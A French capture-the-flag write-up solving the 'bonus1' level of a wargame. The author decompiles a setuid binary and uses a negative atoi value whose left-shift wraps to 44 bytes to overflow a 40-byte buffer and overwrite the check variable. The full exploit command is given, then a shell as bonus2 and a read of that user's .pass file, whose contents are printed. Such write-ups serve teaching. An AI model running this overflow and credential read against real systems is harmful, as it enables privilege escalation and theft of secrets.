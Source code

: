 Je commence par découvrir qui je suis, où je suis, et qu'est-ce qui est à ma disposition :

```bash
$ id && pwd && ls -la
uid=2011(bonus1) gid=2011(bonus1) groups=2011(bonus1),100(users)
/home/user/bonus1
total 17
dr-xr-x---+ 1 bonus1 bonus1   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 bonus1 bonus1  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 bonus1 bonus1 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 bonus2 users  5043 Mar  6  2016 bonus1
-rw-r--r--+ 1 bonus1 bonus1   65 Sep 23  2015 .pass
-rw-r--r--  1 bonus1 bonus1  675 Apr  3  2012 .profile
```

Je tente de lancer le binaire `bonus1` :

```bash
$ ./bonus1
Segmentation fault (core dumped)
$ ./bonus1 dab
$ ./bonus1 dab itude
```

Sans succès, je me penche dès lors sur la décompilation.

J'utilise [Dogbolt](https://dogbolt.org/?id=e9dbc80b-2f99-46a6-8bbc-0ef4b8c2bda0#BinaryNinja=114&Reko=89) afin de décompiler le binaire du `bonus1`, qui a des protections contre la décompilation, mais certains décompilateurs réussissent.

Je recoupe la sortie de `RetDec` avec l'ASM et en extrait le probable code suivant :

```c
int main(int argc, char **argv)
{
    int result;
    char buffer[40];

    result = atoi(argv[1]);
    if (result > 9)
        return 1;

    memcpy(buffer, argv[2], (size_t)result << 2);
    if (result == 0x574f4c46)
        execl("/bin/sh", "sh", 0);

    return 0;
}
```

D'après le code source, il semble qu'afin d'obtenir le shell, il faille passer la condition `result == 0x574f4c46` soit `result == 1464814662`.

En revanche, `result` ne peut pas être supérieur à 9. Il est cependant possible d'overflow la ligne :

```c
    memcpy(buffer, argv[2], (size_t)result << 2);
```

Si l'on réussit à passer ce check :

```c
    if (result > 9)
        return 1;
```

Puisque l'on pourra overflow le buffer de taille 40 avec une valeur de `result` supérieure à 10.
Je tente d'abord une approche avec un overflow de l'int, mais sans succès.

En utilisant la calculette de Windows cependant, pour essayer des opérations décimale/binaire autour des valeurs max et min de l'int, je tombe sur l'étonnante observation que :

`-2147483648 * n = 0` 

Et en effet, multiplier par 4 revient à faire un `n << 2`, donc, puisque la représentation binaire de `-2147483648` (INT_MIN) est :

`10000000000000000000000000000000`, après un left-shift de 2 bit, devient : `00000000000000000000000000000000`, soit 0.

Donc, puisque la représentation binaire de `-2147483647` (INT_MIN - 1) est : `10000000000000000000000000000001`, elle devient `00000000000000000000000000000100`, soit 4, après un left-shit de 2 bits (= une multiplication par 4).

Et ainsi de suite.

Je peux donc utiliser une valeur négative à passer à `atoi()`, puisque elle passera le `result > 9`, et sera multiplié par 4 au moment du `memcpy()`, ce qui va me permettre d'overflow le buffer et de changer la valeur de `result` afin de passer le dernier `if`.

Je dois donc créer un payload avec la structure suivante : `un nombre négatif me permettant d'overflow + padding (40 bytes) + la nouvelle valeur de result`.

En augmentant la valeur de l'INT_MIN jusqu'à `-2147483637`, dont la représentation binaire est `10000000000000000000000000001011`, et le left-bit shift de 2 résultant en : `00000000000000000000000000101100`, équivaut à 44.

Ce qui est un overflow de 4 bytes, ce qui est juste assez pour insérer la nouvelle valeur de l'int dans l'overflow.

Je peux donc construire mon payload :

```
-2147483637 + "\x90" * 40 + 0x574f4c46
^^^^^^^^^^^   ^^^^^^^^^^^   ^^^^^^^^^^
result        buffer[40]    overflow sur result
```

Et l'essayer : 

```bash
$ ./bonus1 -2147483637 `python -c 'print "\x90"*40 + "\x57\x4f\x4c\x46"[::-1]'`
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
$
```

Et c'est un succès !

